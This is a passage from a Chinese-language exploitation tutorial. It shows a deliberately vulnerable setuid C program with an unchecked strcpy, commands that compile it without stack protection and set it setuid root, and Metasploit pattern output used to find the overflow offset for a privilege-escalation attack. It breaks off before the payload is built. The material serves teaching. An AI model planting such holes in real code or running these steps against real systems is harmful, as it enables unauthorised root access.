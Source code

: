 现在我们就成功获取了目标程序中POP/RET指令的地址了。

至此利用execl的整个攻击逻辑和关键技术点，就介绍完毕了，下面我们找个例子进行实际操作。

0x04 实战演练
=========

* * *

含有缓冲区溢出漏洞的程序源代码如下：

```
/*vuln.c*/
#include <stdio.h>

/*small buffer vuln prog*/
int main(int argc, char* argv[]) {
    char buffer[7];
    strcpy(buffer, argv[1]);
    return 0;
}

```

我们关闭系统的ASLR保护机制之后，再使用root用户编译：

```
# gcc  -fno-stack-protector  -o  vuln  vuln.c

```

然后添加SET-UID：`# chmod u+s vuln`

然后退出root用户，切换到普通用户模式：`# exit`

现在我们可以开始以普通用户权限进行提权攻击了！整个攻击工作可以分为两个大的步骤：1)确定漏洞buffer的大小；2)开始构建攻击buffer。

### 4.1 确定漏洞buffer大小

为方便快速确定大小，我们可以借助metasploits提供的pattern_create.rb和pattern_offset脚本。前者用于生成特殊的输入数据，后者用于帮助确定指定数据在该输入数据中的偏移值。

pattern_create.rb的使用方式如下：

```
Usage: pattern_create.rb length [set a] [set b] [set c]

```

这里我们使用pattern_create.rb 250生成250字节的输入数据:

```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2A

```

然后使用gdb调试目标程序：
